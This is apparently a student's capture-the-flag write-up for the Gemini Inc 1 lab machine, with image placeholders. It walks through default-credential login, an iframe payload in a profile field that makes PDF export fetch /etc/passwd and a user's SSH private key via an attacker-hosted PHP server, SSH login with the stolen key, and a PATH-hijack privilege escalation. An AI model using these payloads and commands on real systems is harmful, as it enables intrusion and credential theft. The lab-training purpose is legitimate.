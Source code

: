 # Exercise 1: Gemini Inc 1

Nmap full scan:  
![](media/0c35fc92dc7bd6537aefc0e5f04dd7ac.png)

Webpage:  
![Graphical user interface, text, application, email Description automatically generated](media/46937ae4f874c04e6e5dd78ecb2ce57e.png)

Check master-login-system default credentials

Github page links to a youtube video: <https://www.youtube.com/watch?v=y7SdQfZfLbA>

At 1:13, it shows a user ‘admin’ and password ‘1234’, which worked when logging into the site. Did not work when logging into ssh

I was stuck, so I followed the walkthrough <https://www.hackingarticles.in/hack-the-gemini-inc-ctf-challenge/>

Create index.php file:  
![](media/be116ce1093de3da73b5284af64139e6.png)

Run a php server at the same directory as index.php file: php -S 0.0.0.0:4444

In Actions -\> Edit profile, set display name as the following:  
\<iframe height="1000" width="800" src="http://192.168.50.5:4444/?file=/etc/passwd"\>\</iframe\>

where the 192.168.x.x is our Kali IP

Go back to profile and go to Actions -\> Export profile

![Text Description automatically generated](media/8f56b31c8d842cbda8e7d185e24cd177.png)

Gemini1, UID 1000

Go back to Actions -\> Edit profile and set new display name as:

\<iframe height="1000" width="800" src="http://192.168.50.5:4444/?file=/home/gemini1/.ssh/id_rsa"\>\</iframe\>

![Text Description automatically generated](media/bc7d178c2dcae9e0793d32ec9d0eeaeb.png)

We have the private RSA key for user Gemini1. We save this into a file login_rsa

Then, run ssh: ssh -i login_rsa [gemini1@192.168.50.18](mailto:gemini1@192.168.50.18) on the same directory as login_rsa file

find / -perm -u=s -type f 2\>/dev/null

to find any possible privilege escalation entry via SUID permissions

![](media/b3627d6b2422053c947c16cf932c1f6e.png)

Explore listinfo:  
![Graphical user interface Description automatically generated with medium confidence](media/0129fd2a1630353d59a6099a1f389ffd.png)

It calls date and netstat.

Execute:

cd /tmp   
echo "/bin/sh" \> date  
chmod 777 date  
echo \$PATH  
export PATH=/tmp:\$PATH  
/usr/bin/listinfo

![Text Description automatically generated](media/835faf7e6cd78b0f362a49a60152e203.png)
